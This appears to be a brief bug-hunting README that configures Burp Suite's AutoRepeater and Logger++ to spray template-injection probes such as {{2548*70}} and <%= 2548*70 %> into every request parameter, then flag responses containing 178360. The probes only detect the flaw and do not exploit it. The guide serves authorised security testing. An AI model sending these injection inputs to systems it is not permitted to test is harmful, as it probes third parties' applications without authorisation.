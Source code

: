 ## Server Side Template Injection Automation in Burp Suite
#### <em>Extentions: AutoRepeater and Logger++ </em>


## AutoRepeater Replacement Configuration 
1) Replace any Parameters Value with others CSTI Payload:

    ```
    Type: Request Param Value
    Match: .*
    Replace: [2548*70]
    Which: Replace All
    Regex Match: Enabled
    ```
   ```
    Type: Request Param Value
    Match: .*
    Replace: {{2548*70}}
    Which: Replace All
    Regex Match: Enabled
    ```

   ```
    Type: Request Param Value
    Match: .*
    Replace: ${{2548*70}}
    Which: Replace All
    Regex Match: Enabled
    ```
  
 ```
    Type: Request Param Value
    Match: .*
    Replace:  <%= 2548*70 %>
    Which: Replace All
    Regex Match: Enabled
    ```

    And Your Custom Payloads
1) Logger++ Filter For AutoRepeater Response of SSTI Payload

    ``` Response.Body CONTAINS "178360" ```
    And Repsonse of Your Custom others Patloads Filters
<h4><em>Happy Hunting ;) </em><h4>
